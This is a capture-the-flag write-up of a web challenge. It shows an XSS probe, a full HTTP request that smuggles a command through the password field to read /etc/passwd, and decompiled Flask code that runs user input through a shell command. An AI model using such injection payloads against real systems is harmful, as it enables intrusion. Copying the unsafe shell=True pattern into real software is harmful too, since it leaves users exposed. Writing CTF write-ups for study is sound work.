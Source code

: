```yaml
---
title: '[SpiderLabsCTF] Remote Management System'
published: true
author: ishtar
---
```


# Remote Management System (Web)
At first, we provided real details in order to understand the application\'s logic.
    + Using `sshpass` utility, the server was connecting to an SSH server using the provided details
    + Upon login, the command `show config` was issued

We decided to test if the application would reflect back any output from the above command into the webpage. Thus, using `sudo cp /bin/cat /bin/show` we create a copy of the `cat` utility called `show` and using `echo "<script>aler(1)</script>" > config` we create the file that the server will request to read. Interestingly, the server reflected back the contents of the `config` file in the webpage and it was also vulnerable to XSS.

We tried several "payloads" in order to identify any other vulnerabilities like XXE, SSTI or characters that would break the applications logic. None of them worked.

Going back to the application, we tried to find a command injection vulnerability by manually trying to fuzz the available parameters using Burp. Good news, RCE was possible thus we started enumerating the server.

```
POST / HTTP/1.1
Host: spiderlabsctf.com:6060
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: http://spiderlabsctf.com:6060
Connection: close
Referer: http://spiderlabsctf.com:6060/
Upgrade-Insecure-Requests: 1

hostname=/&port=1&username=/&password=-w+less+-FX+/etc/passwd+%0a
```

After reading both `app.py` and `remoteapp.pyc` files (decompiled) we were unable to find the flag. We also used `grep FLAG -R /` in order to recursively check each file for the flag, without any luck.

app.py
```
import sys
from remoteapp import remoteapp
from flask import Flask, request, render_template, Response
app = Flask(__name__)

@app.route("/", methods=['GET', 'POST'])
def manage():
    if len(request.form) > 0:
        output = remoteapp(request.form)
        return render_template('home.html', output=output)
    else:
        return render_template('home.html')
@app.route('/css/<path:path>')
def send_css(path):
    return Response(open("css/%s" % path, "r").read(), mimetype='text/css')

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=int(sys.argv[1]))
```

remoteapp.py (decompiled)
```
import subprocess, re, redis
from flask import Markup

def remoteapp(data):
    try:
        password = check_param(data['password'])
        username = check_param(data['username'])
        hostname = check_param(data['hostname'])
        port = int(data['port'])
        cmd = 'sshpass -p %s ssh -o StrictHostKeyChecking=no -p %s %s@%s show config' % (password, port, username, hostname)
        print cmd
        output = subprocess.Popen([cmd], shell=True, stdout=subprocess.PIPE, stderr=subprocess.STDOUT)
        stdout, stderr = output.communicate()
        return Markup("<div class='alert alert-warning'>%s</div>" % stdout)
    except:
        return Markup("<div class='alert alert-danger'>Could not fetch remote data</div>")


def check_param(data):
    if not re.match('^[a-zA-Z0-9 \\.:/\\-]*$', data):
        print '%s failed regex check' % data
        save_query(data)
        raise Exception('regex violation')
    return data


def save_query(data):
    instance = redis.StrictRedis(host='127.0.0.1', db=0)
    instance.set(data, data)
```

Finally, we saw that a redis server was running. Issuing a simple `redis-cli get FLAG` revealed the flag.

-ishtar
-CYberMouflons
